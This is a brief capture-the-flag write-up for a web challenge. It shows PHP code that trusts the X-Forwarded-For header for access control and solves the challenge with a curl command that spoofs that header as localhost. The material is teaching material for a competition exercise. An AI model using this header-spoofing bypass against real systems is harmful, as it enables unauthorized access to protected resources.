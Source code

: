 ### Challenge ###
giraffe notes
100
Easy
I bet you can't access my notes on giraffes!

http://chal.competitivecyber.club:8081

Flag format: CACI{.*}

Author: CACI

### Solution ###
We have the source code of the website. Upon inspecting the source code:
```php
<?php
$allowed_ip = ['localhost', '127.0.0.1'];

if (isset($_SERVER['HTTP_X_FORWARDED_FOR']) && in_array($_SERVER['HTTP_X_FORWARDED_FOR'], $allowed_ip)) {
    $allowed = true;
} else {
    $allowed = false;
}
?>

<!DOCTYPE html>
<html>

<head>
// other unnecessary html code
```
we can notice that the server checks if the x-forwarded-for header is equal to localhost or not so we just have to add x-forwarded-for header in request.

Curl command : ```bash
curl -v http://chal.competitivecyber.club:8081/ -H "X-forwarded-for: localhost"
```
